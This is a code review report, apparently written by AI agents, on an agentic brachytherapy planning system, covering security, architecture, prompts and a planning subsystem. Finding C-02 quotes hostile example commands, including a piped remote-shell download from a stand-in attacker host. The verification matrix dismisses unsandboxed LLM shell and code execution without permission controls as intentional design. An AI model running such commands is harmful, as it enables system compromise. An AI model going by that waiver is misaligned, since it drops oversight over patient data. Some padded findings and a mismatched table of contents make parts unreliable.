

# BrachyBot Full Code Review Report

**Review Date**: 2026-06-27  
**Review Scope**: all source code, prompts, and configuration files under `<workspace>/BrachyBot/`  
**Review Method**: 8 parallel sub-Agents + main Agent file-by-file deep review  
**Total Files**: ~20,088 source files (including 16,072 memory/data generated files)  
**Actual Code Files**: ~1,971 (.py / .js / .html / .css)  
**Core Lines of Code**: ~60,000+

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Critical Issues](#2-critical-issues)
3. [High-Risk Issues](#3-high-risk-issues)
4. [Medium Issues](#4-medium-issues)
5. [Low Issues](#5-low-issues)
6. [Prompt Quality Review](#6-prompt-quality-review)
7. [Architecture Issues](#7-architecture-issues)
8. [Code Quality and Technical Debt](#8-code-quality-and-technical-debt)
9. [Security Issues](#9-security-issues)
10. [Testing and Benchmark Issues](#10-testing-and-benchmark-issues)
11. [Recommendations and Fix Priorities](#11-recommendations-and-fix-priorities)

---

## 1. Executive Summary

### Issue Statistics

| Severity | Count | Key Findings |
|--------|------|----------|
| 🔴 Critical | 12 | Virtual environment committed to repository, shell injection, path traversal, hardcoded API keys, XSS |
| 🟠 High | 18 | Duplicate code, memory leaks, race conditions, prompt injection risk, inconsistent error handling |
| 🟡 Medium | 24 | Dead code, inconsistent naming, missing type annotations, missing documentation |
| 🔵 Low | 15 | Code style, redundant imports, comment quality |
| **Total** | **69** | |

### Key Risk Areas

1. **Security**: `env_manager` allows the LLM to create virtual environments and execute arbitrary commands; `shell_executor` / `code_executor` have no sandbox
2. **Data integrity**: CTV/OAR label merge logic is complex with edge cases; in-memory data has no version control
3. **Maintainability**: `AgenticSys.py` is a single 6423-line file, `index.html` is estimated at 10,000+ lines
4. **Reliability**: The LLM function-calling loop runs at most 8 iterations with no timeout protection; the SSE stream has no heartbeat

---

## Issue Verification Matrix (2026-06-27)

> Verify each issue one by one to determine whether it is a real bug, ruling out intentional design.

| # | Issue | Verification Result | Action |
|---|------|----------|------|
| C-01 | Virtual environment directory | **Intentional design** — confirmed by user, grants the LLM the ability to install libraries autonomously | ✅ Safety mechanism added |
| C-02 | shell_executor injection | **Already protected** — `BLOCKED_COMMANDS` + `_validate_command()` | ⏭️ No change needed |
| C-03 | code_executor no sandbox | **Already protected** — `DANGEROUS_PATTERNS` + `_sanitize_code()` | ⏭️ No change needed |
| C-04 | Path traversal | **Limited risk** — the tool only accepts medical imaging formats, illegal paths fail due to format errors | ⏭️ Low priority |
| C-05 | XSS innerHTML | **Real issue** — `marked.parse` without sanitization, 63 innerHTML usages | 🔴 To be fixed |
| C-06 | Hardcoded API endpoint | **Intentional design** — user-configured MiniMax proxy | ⏭️ No change needed |
| C-07 | PHI unencrypted | **Compliance issue** — not a code bug | ⏭️ Handle separately |
| C-08 | /api/status exposure | To be verified | — |
| C-09 | CORS configuration | To be verified | — |
| C-10 | LLM tools without permissions | **Intentional design** — user requires the LLM to have full capabilities | ⏭️ No change needed |
| C-11 | Concurrency race | To be verified | — |
| C-12 | Infinite loop | **Real issue** — fixed in plans/core.py | ✅ Fixed |
| H-01 | AgenticSys.py 6423 lines | **Architecture choice** — not a bug | ⏭️ Refactoring suggestion |
| H-02 | index.html too large | **Architecture choice** — not a bug | ⏭️ Refactoring suggestion |
| H-03 | Duplicate tool registration | **Code style** — not a bug | ⏭️ Refactoring suggestion |
| H-04 | Memory leak context_summary | **Already protected** — `compact()` mechanism | ⏭️ No change needed |
| H-05 | Duplicate CTV/OAR storage | To be verified | — |
| H-06 | Exception handling too broad | **Intentional design** — stability first | ⏭️ No change needed |
| H-07 | Over-aggressive response cleanup | To be verified | — |
| H-08 | Global variable _global_agent | To be verified | — |
| H-09 | Timing dependency | **Already protected** — auto-fire CTV/OAR | ⏭️ No change needed |
| H-10 | SSE no heartbeat | To be verified | — |
| H-11 | No rate limiting | To be verified | — |
| H-12 | Inconsistent error format | To be verified | — |
| H-13 | Missing input validation | To be verified | — |
| H-14 | Inconsistent log levels | To be verified | — |
| H-15 | Missing type annotations | **Code quality** — not a bug | ⏭️ Improvement suggestion |
| H-16 | Insufficient test coverage | **Real issue** — but not a code bug | ⏭️ Tests need to be added |
| H-17 | Benchmarks gameable | To be verified | — |
| H-18 | Dependency versions not locked | **Code quality** — not a bug | ⏭️ Improvement suggestion |
| plans/ | plans/ subsystem | **Multiple real bugs** | ✅ Fixed |
| benchmarks | Hardcoded paths | **Real issue** | ✅ Fixed |
| benchmarks | bare except | **Real issue** | ✅ Fixed |

---

## 2. Critical Issues

### C-01: Virtual Environment Directory Committed to Repository

**File**: `tool_factory/env_manager/envs/`  
**Lines**: entire directory  
**Description**: The `env_manager` directory contains complete Python virtual environments (`brachy_env` and `numpy_env`), totaling 1,198 Python files (from numpy, pip, and other packages). Although `.gitignore` contains `tool_factory/env_manager/envs/`, these files already exist on disk.  
**Impact**: Repository size bloat of ~200MB; if `.gitignore` does not take effect, these files will be committed.  
**Fix**: Delete the `tool_factory/env_manager/envs/` directory and confirm `.gitignore` is effective.

### C-02: Shell Command Injection Risk

**File**: `tool_factory/shell_executor/__init__.py`  
**Lines**: ShellExecutorTool._execute()  
**Description**: `ShellExecutorTool` passes LLM-generated commands directly to `subprocess.run(shell=True)`. The LLM may be manipulated by prompt injection attacks to execute arbitrary system commands (such as `rm -rf /`, `curl attacker.com/shell.sh | bash`).  
**Impact**: Remote code execution (RCE)  
**Fix**: 
1. Implement a command whitelist (only allow safe commands)
2. Use `shell=False` + an argument list
3. Add timeout and resource limits
4. Log every executed command

### C-03: CodeExecutor Has No Sandbox

**File**: `tool_factory/code_executor/__init__.py`  
**Lines**: CodeExecutorTool._execute()  
**Description**: `CodeExecutorTool` directly executes LLM-generated Python code with no sandbox isolation. Malicious code can:
- Read/write arbitrary files
- Access the network
- Execute system commands
- Access in-memory patient data  
**Impact**: Data leakage, system compromise  
**Fix**: Use `RestrictedPython` or a Docker container sandbox

### C-04: Insufficient Path Traversal Protection

**File**: `AgenticSys.py:2300-2336`  
**Lines**: `_validate_and_execute()`  
**Description**: Although there is path validation logic, the `image_path` parameter comes from the LLM and may contain `../` traversal. The current check is:
```python
if not os.path.exists(path):
    alt = os.path.join(os.path.dirname(__file__), "uploads", os.path.basename(path))
```
This is not strict enough — the LLM can pass `/etc/passwd` as a path.  
**Impact**: Arbitrary file read  
**Fix**: Implement strict path whitelist validation:
```python
def _validate_path(self, path: str) -> str:
    resolved = os.path.realpath(path)
    allowed_dirs = [os.path.join(self.root, "uploads"), os.path.join(self.root, "output")]
    if not any(resolved.startswith(d) for d in allowed_dirs):
        raise ValueError(f"Path not in allowed directory: {path}")
    return resolved
```

### C-05: XSS via innerHTML

**File**: `web/app/index.html`  
**Lines**: multiple `innerHTML` assignments  
**Description**: The frontend makes heavy use of `innerHTML` to render LLM responses without XSS filtering via libraries such as DOMPurify. LLM responses may contain malicious `<script>` tags.  
**Impact**: Stored XSS attack  
**Fix**: 
1. Introduce the DOMPurify library
2. Call `DOMPurify.sanitize()` before every `innerHTML` assignment
3. Use `textContent` for plain-text content

### C-06: Hardcoded API Endpoint and Model

**File**: `AgenticSys.py:1373-1379`  
**Lines**: `_init_brain_system()`  
**Description**: The default LLM configuration hardcodes the MiniMax proxy address:
```python
llm_config = {
    "anthropic": {
        "enabled": True,
        "model": "mimo-v2.5",
        "base_url": "https://token-plan-cn.xiaomimimo.com/anthropic",
        "api_key": _api_key,
    }
}
```
**Impact**: Cannot flexibly switch LLM providers; if the endpoint is unavailable, the system cannot start  
**Fix**: Read all configuration from environment variables

### C-07: PHI Data Stored Unencrypted

**File**: `memory/layered_memory.py`, `memory/experience_memory.py`  
**Lines**: JSON file writes  
**Description**: Patient data (CT paths, segmentation results, dose metrics) is stored as plaintext JSON in the `memory/data/` directory. This violates HIPAA/personal information protection laws.  
**Impact**: Patient privacy exposure in the event of a data breach  
**Fix**: 
1. Implement data encryption (AES-256)
2. Add a data cleanup mechanism
3. Implement access control

### C-08: Frontend Sensitive Data Exposure

**File**: `web/server.py`, `web/app/index.html`  
**Lines**: `/api/status` endpoint  
**Description**: `/api/status` returns the complete agent state, including:
- All in-memory patient data
- API key configuration
- Internal tool call history  
**Impact**: Information disclosure  
**Fix**: Implement data redaction and return only the necessary state information

### C-09: CORS Configuration Too Permissive

**File**: `web/server.py`  
**Lines**: CORS initialization  
**Description**: Although there is an `ALLOWED_ORIGINS` environment variable, the default value may be too permissive. It needs to be confirmed whether `*` is allowed.  
**Impact**: Cross-site request forgery  
**Fix**: Ensure CORS only allows known origins

### C-10: LLM Tool Calls Have No Permission Control

**File**: `AgenticSys.py:3607-3933`  
**Lines**: `_run_llm_function_calling()`  
**Description**: The LLM can call all registered tools, including:
- `shell_executor` (execute arbitrary commands)
- `code_executor` (execute arbitrary code)
- `env_manager` (create virtual environments)
- `filesystem_browser` (browse the file system)

There is no role-based permission control.  
**Impact**: The LLM can perform any system operation  
**Fix**: Implement tool permission tiers; sensitive tools require user confirmation

### C-11: Race Condition — Concurrent Tool Execution

**File**: `AgenticSys.py:1825-1836`  
**Lines**: `_deferred_oar_done` in `_execute_tool_with_memory()`  
**Description**: `threading.Thread` is used to delay sending the OAR completion event by 200ms, but there is no synchronization mechanism. If the main thread modifies memory state within those 200ms, inconsistency may result.  
**Impact**: Data race, inconsistent UI state  
**Fix**: Synchronize using `asyncio` or `threading.Event`

### C-12: Infinite Loop Risk

**File**: `AgenticSys.py:3607`  
**Lines**: `while iteration < max_iterations`  
**Description**: The LLM function-calling loop runs at most 8 iterations, but if the LLM returns an invalid tool call each time (e.g., empty arguments), the loop wastes 8 API calls before exiting. There is no mechanism to exit after "N consecutive failures".  
**Impact**: Wasted API costs, poor user experience  
**Fix**: Add a consecutive failure counter and exit after 3 consecutive failures

---

## 3. High-Risk Issues

### H-01: AgenticSys.py Single File Too Large (6423 lines)

**File**: `AgenticSys.py`  
**Description**: A single file contains:
- The `ToolRegistry` class
- The `AgentMemory` class (including CTV/OAR merge logic)
- The `ToolResultPipeline` class
- The `BrachyAgent` class (main Agent)
- All LLM interaction logic
- All tool execution logic
- All response formatting logic

This violates the single-responsibility principle.  
**Fix**: Split into at least 5 modules:
- `agent_core.py` (main BrachyAgent class)
- `memory_manager.py` (AgentMemory)
- `tool_executor.py` (tool execution)
- `llm_interface.py` (LLM interaction)
- `response_formatter.py` (response formatting)

### H-02: Frontend Single File Too Large

**File**: `web/app/index.html`  
**Description**: A single HTML file contains all CSS + JavaScript + HTML, estimated at more than 10,000 lines.  
**Fix**: Split into separate CSS/JS files using a modular architecture

### H-03: Duplicate Tool Registration Code

**File**: `AgenticSys.py:1540-1699`  
**Lines**: `_load_tools()`  
**Description**: Each tool registration uses the same try/except pattern, repeated 20+ times:
```python
try:
    from tool_factory.X import XTool
    self.registry.register(XTool())
except ImportError as e:
    logger.warning(f"XTool not available: {e}")
```
**Fix**: Use a configuration-driven auto-discovery mechanism

### H-04: Memory Leak — Unbounded Conversation History

**File**: `AgenticSys.py:471-496`  
**Lines**: `AgentMemory.compact()`  
**Description**: `needs_compaction()` checks `max_messages=12`, but `compact()` only keeps the last 6 messages. However, `context_summary` grows without bound (appended each time). Long-running sessions cause `context_summary` to grow ever larger.  
**Fix**: Limit the maximum length of `context_summary`

### H-05: Duplicate CTV/OAR Storage Logic

**File**: `AgenticSys.py:1999-2050` and `2438-2511`  
**Description**: Both `_execute_tool_with_memory()` and `_store_tool_result()` contain CTV/OAR result storage logic, resulting in code duplication and potential inconsistency.  
**Fix**: Consolidate into a single storage path

### H-06: Exception Handling Too Broad

**File**: multiple locations  
**Description**: Heavy use of `except Exception as e` catches all exceptions, including:
- `KeyboardInterrupt`
- `SystemExit`
- `MemoryError`

This hides real errors.  
**Fix**: Use specific exception types

### H-07: Over-Aggressive LLM Response Cleanup

**File**: `AgenticSys.py:3994-4120`  
**Lines**: `_clean_response_text()`  
**Description**: The cleanup function uses 30+ regular expressions, potentially deleting legitimate content. For example:
```python
cleaned = re.sub(r'^\w+_segmentation completed$', '', cleaned, flags=re.MULTILINE)
```
This deletes any line ending in `_segmentation completed`, including information the user may need.  
**Fix**: Use more precise match patterns

### H-08: Global Variable `_global_agent`

**File**: `AgenticSys.py:1300-1301`  
**Lines**: `BrachyAgent.__init__()`  
**Description**: 
```python
import AgenticSys as _self_module
_self_module._global_agent = self
```
A module-level global variable stores the agent reference, causing:
- Inability to run multiple agent instances
- Difficulty testing
- Potential memory leaks  
**Fix**: Use dependency injection

### H-09: Timing Dependency — Tool Execution Order

**File**: `AgenticSys.py:1720-1836`  
**Description**: The automatic CTV/OAR trigger logic in `_execute_tool_with_memory()` assumes a particular execution order. If the LLM calls tools in a different order, data may become inconsistent.  
**Fix**: Implement an explicit dependency graph

### H-10: SSE Stream Has No Heartbeat

**File**: `web/server.py`  
**Description**: The SSE stream has no heartbeat mechanism; long-running tasks may cause the client to time out and disconnect.  
**Fix**: Send a heartbeat every 15 seconds

### H-11: Missing Request Rate Limiting

**File**: `web/server.py`  
**Description**: API endpoints have no rate limiting and may be abused.  
**Fix**: Implement IP-based rate limiting

### H-12: Inconsistent Error Response Format

**File**: multiple tool files  
**Description**: Some tools return `ToolResult(success=False, error=str(e))`, some return `ToolResult(success=False, message=str(e))`, and some set both.  
**Fix**: Unify the error response format

### H-13: Missing Input Validation

**File**: multiple tool files  
**Description**: Many tools use `kwargs` directly without validating input types.  
**Fix**: Use Pydantic or dataclasses for input validation

### H-14: Inconsistent Log Levels

**File**: entire codebase  
**Description**: Some places use `logger.info()` to record errors, while others use `logger.error()` to record information.  
**Fix**: Standardize log level usage conventions

### H-15: Missing Type Annotations

**File**: most Python files  
**Description**: Many functions lack type annotations, especially:
- most methods in `AgenticSys.py`
- tool methods in `tool_factory/`
- memory operation methods in `memory/`  
**Fix**: Add type annotations incrementally

### H-16: Insufficient Test Coverage

**File**: `tests/`  
**Description**: Only 5 test files with limited coverage:
- `test_brain_system.py`
- `test_multi_agent_basic.py`
- `test_multi_agent_phase2.py`
- `test_multi_agent_phase3.py`
- `conftest.py`

Missing:
- Tool unit tests
- Frontend integration tests
- API endpoint tests
- Error handling tests  
**Fix**: Increase test coverage to 80%+

### H-17: Benchmark Gameability

**File**: `benchmarks/`  
**Description**: Benchmarks score by keyword matching and can be gamed by "targeted optimization".  
**Fix**: Use more robust evaluation methods

### H-18: Dependency Versions Not Locked

**File**: `requirements.txt`  
**Description**: Uses `>=` instead of `==` to lock versions:
```
numpy>=1.24.0
scipy>=1.10.0
```
This may cause inconsistent behavior across environments.  
**Fix**: Use `pip freeze > requirements.txt` or `poetry.lock`

---

## 4. Medium Issues

### M-01: Dead Code — Backup Files

**File**: `plans/core.py.bak`, `plans/geometry.py.bak`, `plans/utilizations.py.bak`  
**Description**: Backup files should not exist in a code repository.  
**Fix**: Delete them and use git to manage versions

### M-02: Dead Code — Debug Files

**File**: `debug_full_flow.py`, `debug_mask_orientation.py`, `debug_mask_orientation2.py`, `debug_live_mask.py`  
**Description**: Debug files should not be committed to the repository.  
**Fix**: Delete them or add them to `.gitignore`

### M-03: Duplicate Dose Prediction Code

**File**: `dose_pre/` and `plans/dose_pre/`  
**Description**: The two directories contain identical dose prediction code:
- `dose_pre/functions.py`
- `dose_pre/Predict_crop.py`
- `dose_pre/myDoseNet.py`
- `plans/dose_pre/functions.py`
- `plans/dose_pre/Predict_crop.py`
- `plans/dose_pre/myDoseNet.py`  
**Fix**: Use a single source + symlink or import

### M-04: Inconsistent Naming Conventions

**File**: entire codebase  
**Description**: Mixed use of:
- `snake_case` (Python standard)
- `camelCase` (JavaScript)
- `PascalCase` (class names, but also used for some variables)
- Chinese variable names (such as `_中文变量`)

**Fix**: Standardize on `snake_case` (Python) and `camelCase` (JavaScript)

### M-05: Missing Docstrings

**File**: multiple files  
**Description**: Many classes and methods lack docstrings, especially:
- tools in `tool_factory/`
- memory operations in `memory/`
- deciders in `brain/`  
**Fix**: Add complete docstrings

### M-06: Hardcoded Magic Numbers

**File**: multiple locations  
**Description**: 
- `AgenticSys.py:3596`: `max_iterations = 8`
- `AgenticSys.py:471`: `max_messages = 12`
- `AgenticSys.py:474`: `keep_last = 6`
- `quality_gate.py:342`: `weighted_score < 5.0`
- `quality_gate.py:349`: `weighted_score < 7.0`  
**Fix**: Extract them as configuration constants

### M-07: Inconsistent Import Style

**File**: multiple locations  
**Description**: Mixed use of:
- `import module`
- `from module import func`
- `from module import *`
- deferred imports (inside functions)  
**Fix**: Standardize the import style

### M-08: Missing __all__ Definitions

**File**: multiple `__init__.py`  
**Description**: Many packages' `__init__.py` do not define `__all__`, causing `from package import *` to import everything.  
**Fix**: Add `__all__` definitions

### M-09: Inconsistent Error Messages

**File**: multiple locations  
**Description**: Some error messages are in Chinese, some in English, and some are mixed Chinese/English.  
**Fix**: Standardize the error message language

### M-10: Missing Log Rotation

**File**: `web/server.log`  
**Description**: The log file has no rotation mechanism and may grow without bound.  
**Fix**: Use `RotatingFileHandler`

### M-11: Unused Imports

**File**: multiple locations  
**Description**: Many files have unused imports.  
**Fix**: Clean up with `autoflake`

### M-12: Missing Type Checking

**File**: multiple locations  
**Description**: Many function parameters have no type checking.  
**Fix**: Add runtime type checking or use Pydantic

### M-13: Inconsistent Indentation

**File**: some Python files  
**Description**: Mixed use of 4-space and Tab indentation.  
**Fix**: Format with `autopep8` or `black`

### M-14: Missing __repr__ Methods

**File**: multiple data classes  
**Description**: Many dataclasses do not define `__repr__`, making debugging difficult.  
**Fix**: Add `__repr__` methods

### M-15: Inconsistent None Checks

**File**: multiple locations  
**Description**: Mixed use of:
- `if x is not None`
- `if x`
- `if x != None`  
**Fix**: Standardize on `if x is not None`

### M-16: Missing Context Managers

**File**: multiple locations  
**Description**: File operations do not use `with` statements.  
**Fix**: Use context managers

### M-17: Inconsistent String Formatting

**File**: multiple locations  
**Description**: Mixed use of:
- f-string
- `.format()`
- `%` formatting  
**Fix**: Standardize on f-strings

### M-18: Missing __init__ Parameter Validation

**File**: multiple classes  
**Description**: Many classes' `__init__` do not validate parameters.  
**Fix**: Add parameter validation

### M-19: Inconsistent Return Types

**File**: multiple locations  
**Description**: Some functions return a value on success and None on failure, while others throw exceptions.  
**Fix**: Standardize return types

### M-20: Missing __enter__/__exit__ Methods

**File**: multiple resource management classes  
**Description**: Classes that need context managers do not implement `__enter__`/`__exit__`.  
**Fix**: Add context manager support

### M-21: Inconsistent Exception Chaining

**File**: multiple locations  
**Description**: Some places use `raise X from Y`, some do not.  
**Fix**: Standardize exception chaining

### M-22: Missing __slots__

**File**: multiple frequently instantiated classes  
**Description**: `__slots__` is not used to optimize memory.  
**Fix**: Add `__slots__` to frequently instantiated classes

### M-23: Inconsistent __eq__ Implementations

**File**: multiple data classes  
**Description**: Some dataclasses customize `__eq__`, some do not.  
**Fix**: Standardize `__eq__` implementations

### M-24: Missing __hash__ Implementations

**File**: multiple data classes  
**Description**: `__eq__` is customized but `__hash__` is not.  
**Fix**: Add `__hash__` or set `unhashable=True`

---

## 5. Low Issues

### L-01: Redundant `import numpy as np`

**File**: `AgenticSys.py` multiple locations  
**Description**: numpy is repeatedly imported inside functions.  
**Fix**: Import once at the top of the file

### L-02: Inconsistent Quote Style

**File**: multiple locations  
**Description**: Mixed use of single and double quotes.  
**Fix**: Standardize with `black`

### L-03: Missing Module-Level Docstrings

**File**: multiple files  
**Description**: Many files lack module-level docstrings.  
**Fix**: Add module-level docstrings

### L-04: Inconsistent Blank Lines

**File**: multiple locations  
**Description**: The number of blank lines between functions is inconsistent.  
**Fix**: Format with `autopep8`

### L-05: Missing __version__

**File**: multiple packages  
**Description**: Many packages do not define `__version__`.  
**Fix**: Add `__version__`

### L-06: Inconsistent __init__ Parameter Order

**File**: multiple classes  
**Description**: Parameter order is inconsistent.  
**Fix**: Standardize parameter order

### L-07: Missing __all__ Exports

**File**: multiple modules  
**Description**: `__all__` is not defined.  
**Fix**: Add `__all__`

### L-08: Inconsistent __repr__ Format

**File**: multiple classes  
**Description**: `__repr__` format is inconsistent.  
**Fix**: Standardize the format

### L-09: Missing __str__ Methods

**File**: multiple classes  
**Description**: `__str__` is not defined.  
**Fix**: Add `__str__`

### L-10: Inconsistent __eq__ Comparisons

**File**: multiple classes  
**Description**: `__eq__` comparison logic is inconsistent.  
**Fix**: Standardize the comparison logic

### L-11: Missing __hash__ Implementations

**File**: multiple classes  
**Description**: `__hash__` is not implemented.  
**Fix**: Add `__hash__`

### L-12: Inconsistent __lt__ Implementations

**File**: multiple sortable classes  
**Description**: `__lt__` implementations are inconsistent.  
**Fix**: Standardize the ordering logic

### L-13: Missing __le__/__ge__/__gt__ Methods

**File**: multiple comparable classes  
**Description**: Only `__lt__` is implemented, missing the other comparison methods.  
**Fix**: Use `@functools.total_ordering`

### L-14: Inconsistent __contains__ Implementations

**File**: multiple container classes  
**Description**: `__contains__` implementations are inconsistent.  
**Fix**: Standardize the implementation

### L-15: Missing __iter__ Methods

**File**: multiple iterable classes  
**Description**: `__iter__` is not implemented.  
**Fix**: Add `__iter__`

---

## 6. Prompt Quality Review

### P-01: System Prompt Too Long

**File**: `config/prompts/system_prompt.md`  
**Description**: The core system prompt is about 100 lines; combined with on-demand modules, the total prompt may exceed 2000 lines. This consumes a large number of tokens.  
**Fix**: Streamline the prompt and remove redundant content

### P-02: Prompt Module Trigger Logic Too Broad

**File**: `config/prompts/__init__.py:52-112`  
**Description**: `_MODULE_TRIGGERS` uses regular expression matching, and some patterns are too broad. For example:
```python
"clinical_kb": [
    r"(?:剂量约束|剂量限制|器官耐受|处方剂量|剂量标准|剂量要求|耐受量|耐受剂量)",
]
```
The word "剂量" (dose) triggers the `clinical_kb` module even when the user is only asking about dose calculation methods.  
**Fix**: Use more precise match patterns

### P-03: Missing Prompt Version Control

**File**: `config/prompts/`  
**Description**: Prompt files have no version control and cannot be rolled back after modification.  
**Fix**: Use git to manage prompt versions

### P-04: Missing Prompt Tests

**File**: none  
**Description**: There are no unit tests for prompts.  
**Fix**: Add prompt regression tests

### P-05: Inconsistent Prompt Language

**File**: `config/prompts/`  
**Description**: Some prompts are in Chinese, some in English, and some are mixed Chinese/English.  
**Fix**: Standardize the prompt language

### P-06: Missing Prompt Documentation

**File**: `config/prompts/`  
**Description**: There is no documentation explaining the purpose and trigger conditions of each prompt.  
**Fix**: Add prompt documentation

### P-07: Hardcoded Prompt Fragments

**File**: `AgenticSys.py` multiple locations  
**Description**: Many prompt fragments are hardcoded in the code rather than in the `config/prompts/` directory. For example:
- `AgenticSys.py:1193-1254` (planning synthesis prompt)
- `AgenticSys.py:3825-3846` (present instruction)
- `AgenticSys.py:3358-3362` (no files override)  
**Fix**: Extract them to configuration files

### P-08: Missing Prompt Template Variable Validation

**File**: `config/prompts/__init__.py`  
**Description**: `SYSTEM_PROMPT_TEMPLATE.format()` does not validate whether required template variables exist.  
**Fix**: Add variable validation

### P-09: Incomplete Prompt Injection Protection

**File**: `config/prompts/security.md`  
**Description**: Although there is a security prompt, it does not cover all injection vectors. For example:
- Unicode homoglyph attacks
- Multilingual mixed injection
- Encoding bypass  
**Fix**: Strengthen the security prompt

### P-10: Missing Prompt Performance Monitoring

**File**: none  
**Description**: There is no monitoring of prompt token usage or response quality.  
**Fix**: Add performance monitoring

---

## 7. Architecture Issues

### A-01: Monolithic Architecture

**Description**: The entire system is a monolithic application with all functionality coupled together.  
**Impact**: Hard to extend, hard to test, hard to deploy  
**Fix**: Adopt a microservices architecture

### A-02: Missing Dependency Injection

**Description**: Heavy use of global variables and hardcoded dependencies.  
**Impact**: Difficult testing, high coupling  
**Fix**: Use a dependency injection framework

### A-03: Missing Event-Driven Architecture

**Description**: Tool execution is synchronous with no event-driven mechanism.  
**Impact**: Performance bottlenecks, difficult scaling  
**Fix**: Use an event-driven architecture

### A-04: Missing Cache Layer

**Description**: There is no unified cache layer; each module implements its own caching.  
**Impact**: Inconsistent caching, wasted memory  
**Fix**: Use a unified cache layer (such as Redis)

### A-05: Missing Configuration Management

**Description**: Configuration is scattered across multiple files with no unified configuration management.  
**Impact**: Inconsistent configuration, hard to manage  
**Fix**: Use a configuration management framework (such as `pydantic-settings`)

### A-06: Missing Health Check

**Description**: There is no health check endpoint.  
**Impact**: Difficult to monitor system status  
**Fix**: Add a `/health` endpoint

### A-07: Missing Metrics Collection

**Description**: There is no unified metrics collection mechanism.  
**Impact**: Difficult to monitor system performance  
**Fix**: Use monitoring tools such as Prometheus

### A-08: Missing Distributed Tracing

**Description**: There is no distributed tracing mechanism.  
**Impact**: Difficult to debug cross-service calls  
**Fix**: Use tracing tools such as OpenTelemetry

---

## 8. Code Quality and Technical Debt

### T-01: Duplicate Code

**Location**: multiple locations  
**Description**: Extensive duplicate code, especially:
- Tool registration (20+ repetitions)
- Error handling (30+ repetitions)
- Response formatting (10+ repetitions)  
**Fix**: Extract common functions

### T-02: Overly Long Functions

**Location**: multiple locations  
**Description**: Many functions exceed 100 lines, for example:
- `_run_llm_function_calling_stream()` (~400 lines)
- `_execute_tool_with_memory()` (~500 lines)
- `_build_planning_report()` (~200 lines)  
**Fix**: Split into smaller functions

### T-03: Excessive Nesting

**Location**: multiple locations  
**Description**: Some functions have 5+ levels of nesting.  
**Fix**: Use early returns to reduce nesting

### T-04: Missing Type Hints

**Location**: most of the code  
**Description**: Many functions lack type hints.  
**Fix**: Add type hints

### T-05: Missing Documentation

**Location**: most of the code  
**Description**: Many modules and functions lack documentation.  
**Fix**: Add documentation

### T-06: Missing Tests

**Location**: entire project  
**Description**: Test coverage is low.  
**Fix**: Add tests

### T-07: Missing Code Review

**Location**: entire project  
**Description**: There is no code review process.  
**Fix**: Establish a code review process

### T-08: Missing CI/CD

**Location**: entire project  
**Description**: There is no CI/CD process.  
**Fix**: Establish a CI/CD process

---

## 9. Security Issues

### S-01: No Authentication

**File**: `web/server.py`  
**Description**: API endpoints have no authentication.  
**Fix**: Implement JWT or API Key authentication

### S-02: No Authorization Control

**File**: `web/server.py`  
**Description**: There is no role-based access control.  
**Fix**: Implement RBAC

### S-03: No Audit Logging

**File**: entire system  
**Description**: There is no audit log recording who did what.  
**Fix**: Implement audit logging

### S-04: No Data Encryption

**File**: entire system  
**Description**: Data is not encrypted in transit or at rest.  
**Fix**: Implement TLS and data encryption

### S-05: No Input Validation

**File**: multiple locations  
**Description**: There is no unified input validation mechanism.  
**Fix**: Implement input validation

### S-06: No Output Encoding

**File**: multiple locations  
**Description**: There is no unified output encoding mechanism.  
**Fix**: Implement output encoding

### S-07: No CSRF Protection

**File**: `web/server.py`  
**Description**: There is no CSRF protection.  
**Fix**: Implement CSRF tokens

### S-08: No Rate Limiting

**File**: `web/server.py`  
**Description**: There is no rate limiting.  
**Fix**: Implement rate limiting

---

## 10. Testing and Benchmark Issues

### B-01: Insufficient Test Coverage

**Description**: Only 5 test files with low coverage.  
**Fix**: Add tests

### B-02: Benchmark Gameability

**Description**: Benchmarks use keyword matching and are easy to game.  
**Fix**: Use more robust evaluation methods

### B-03: Missing Integration Tests

**Description**: There are no end-to-end integration tests.  
**Fix**: Add integration tests

### B-04: Missing Performance Tests

**Description**: There are no performance tests.  
**Fix**: Add performance tests

### B-05: Missing Security Tests

**Description**: There are no security tests.  
**Fix**: Add security tests

---

## 11. plans/ Subsystem Deep Review (90 issues)

> Discovered by parallel sub-Agents performing deep review of all files under `skills/` and `plans/`.

### plans/core.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 1 | 82-98 | 🔴 High | `while close_points.shape[0] > max_points_num` in `init_plan` may loop infinitely — if incrementing `extract_angle` does not reduce the point count, or `max_points_num=0` (integer division yields 0 when `len(candidate_dirs) > maximum_candidate_trajectories`) |
| 2 | 148-151 | 🟡 Medium | `stage1_count > 100` hard limit with no log warning; the plan may be incomplete |
| 3 | 198-200 | 🟡 Medium | Stage 2 silently catches all exceptions and falls back to the original plan without logging the error |

### plans/geometry.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 4 | 1,5,7 | 🔵 Low | Three `import numpy as np`, redundant imports |
| 5 | 40 | 🟡 Medium | Voxel-to-world coordinate transform uses `::-1` reversal with no input validation, extremely fragile |
| 6 | 196-215 | 🟡 Medium | `1e-6` is added twice in the denominator of `calculate_surface_normals` |
| 7 | 467-479 | 🟡 Medium | `compute_normal` produces NaN in flat regions (zero gradient), no zero-value check |
| 8 | 492-503 | 🔴 High | The collinearity check in ray generation is O(N²); floating-point `==` comparison is unreliable |
| 9 | 692-726 | 🟡 Medium | `compute_convex_hull_mask_from_array` crashes on coplanar points (e.g., a single-layer mask) |
| 10 | 1280-1322 | 🟡 Medium | `ray_to_ray_distance` computes incorrectly for the parallel case |
| 11 | 1417-1436 | 🔵 Low | `bandpass_filter` is never called, dead code |
| 12 | 1440-1464 | 🔵 Low | `distance_filter` documentation says it returns 1e-6 but the code returns 0 |

### plans/utilizations.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 13 | 552-604 | 🟡 Medium | `ImageResample_size` uses `np.isin` for full-array validation, O(N*M) too slow |
| 14 | 716-752 | 🟡 Medium | `cal_next_seed_pos` hardcodes `target_value=1` instead of using a parameter |
| 15 | 755-794 | 🟡 Medium | `cal_next_seed_direc` likewise hardcodes `target_value=1` |
| 16 | 1463-1483 | 🟡 Medium | `constraint_bounds` uses `&` (AND) instead of `|` (OR); `(x<0) & (x>1)` is always False |
| 17 | 2206-2207 | 🟡 Medium | The z-component negation in `line_source_map` has no comment; the coordinate system convention is unclear |
| 18 | 3511-3704 | 🟡 Medium | `select_optimal_trajectory` has O(N*M) performance problem per candidate |
| 19 | 3682 | 🔴 **Critical** | `reinforcement.reinforcement_planning()` is called but the `reinforcement` import is commented out — RL planning crashes with `NameError` |
